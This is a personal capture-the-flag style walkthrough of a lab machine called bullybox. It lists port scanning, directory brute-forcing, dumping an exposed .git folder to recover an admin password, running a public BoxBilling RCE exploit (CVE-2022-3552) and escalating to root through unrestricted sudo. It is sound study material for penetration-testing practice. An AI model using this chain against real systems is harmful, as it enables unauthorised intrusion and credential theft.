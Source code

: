 ### Enumeration
```
IP=192.168.218.27
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
	- nc -nv $IP 22
		- SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
- 80
	- Apache httpd 2.4.52 ((Ubuntu))
	- nc -nv $IP 80
		- http
### Foothold
- 80
	- Go to IP, redirects to http://bullybox.local/
		- Add to /etc/hosts
	- Default landing page
		- ![[Pasted image 20240719113000.png]]
	- Register
		- email does not exist
	- Versions
		- box billy
			- < 4.22.1.5 RCE authenticated
			- python3 CVE-2022-3552.py -d http://bullybox.local -u admin@bullybox.local -p Playing-Unstylish7-Provided
				- adjusted IP and port  get RCE as yuki
		- BoxBilling 4.22.1.5
	- Directory Brute force
		- dirsearch -u http://$IP
			- /.git
				- 403 forbidden
				- hack tricks git
					- git dumper
						- git-dumper http://bullybox.local/.git ~/bullybox
						- cat * | grep password
							- bb-config.php
								- mysql - admin:`Playing-Unstylish7-Provided
						- bb-config.sample.php
							- http://www.yourdomain.com/index.php?_url=/bb-admin
							- Use email: admin@bullybox.local:Playing-Unstylish7-Provided
							- Allows us to login
			- /api/api
			- /api
			- /bb-admin
				- ![[Pasted image 20240719113956.png]]
			- /blog
			- /cart
			- /CHANGELOG.md
			- /login
			- /forum
			- /sitemap.xml
			- /robots.txt
				- ![[Pasted image 20240719114222.png]]
				- /bb-data
					- blank
					- dirsearch -u http://bullybox.local/bb-data
						- nothing
			- /README.md
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- yuki
	- id
		- uid=1001(yuki) gid=1001(yuki) groups=1001(yuki),27(sudo)
	- sudo -l
		- (ALL) NOPASSWD: ALL
		- sudo su
			- rooted
### Credentials
### Lessons Learned